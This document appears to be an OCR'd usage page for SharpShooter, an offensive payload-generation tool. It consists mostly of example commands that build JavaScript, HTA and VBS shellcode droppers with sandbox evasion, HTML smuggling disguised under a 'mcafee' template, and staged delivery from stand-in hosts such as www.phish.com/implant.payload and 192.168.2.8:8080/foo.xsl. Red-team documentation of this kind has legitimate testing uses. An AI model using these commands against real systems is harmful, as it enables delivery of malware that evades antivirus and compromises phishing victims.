     ### **Usage - Command Line Mode**
    
    SharpShooter is highly configurable and supports various payload types, sandbox evasions, delivery methods, and output types. Running SharpShooter with the **`--help`** argument provides detailed usage information.
    
    ### **Example Commands**
    
    - **Stageless JavaScript Payload**:
        
        ```css
        SharpShooter.py --stageless --dotnetver 4 --payload js --output foo --rawscfile ./raw.txt --sandbox 1=contoso,2,3
        
        ```
        
        Creates a stageless JavaScript payload targeting .NET framework v4.
        
    - **Stageless HTA Payload with HTML Smuggling**:
        
        ```css
        SharpShooter.py --stageless --dotnetver 2 --payload hta --output foo --rawscfile ./raw.txt --sandbox 4 --smuggle --template mcafee
        
        ```
        
        Generates a stageless HTA payload for .NET framework v2/3 with HTML smuggling.
        
    - **Staged VBS Payload with Web and DNS Delivery**:
        
        ```scss
        SharpShooter.py --payload vbs --delivery both --output foo --web <http://www.foo.bar/shellcode.payload> --dns bar.foo --shellcode --scfile ./csharpsc.txt --sandbox 1=contoso --smuggle --template mcafee --dotnetver 4
        
        ```
        
        Creates a staged VBS payload that performs both Web and DNS delivery.
        
    - **Custom CSharp inside VBS Payload**:
        
        ```css
        SharpShooter.py --dotnetver 2 --payload js --sandbox 2,3,4,5 --delivery web --refs mscorlib.dll,System.Windows.Forms.dll --namespace MDSec.SharpShooter --entrypoint Main --web <http://www.phish.com/implant.payload> --output malicious --smuggle --template mcafee
        
        ```
        
        Demonstrates creating a staged JS payload with custom CSharp code.
        
    - **Creation of a Squiblytwo VBS Payload**:
        
        ```css
        SharpShooter.py --stageless --dotnetver 2 --payload vbs --output foo --rawscfile ./x86payload.bin --smuggle --template mcafee --com outlook --awlurl <http://192.168.2.8:8080/foo.xsl>
        
        ```
        
        Generates a VBS payload using Squiblytwo technique with COM staging.
        
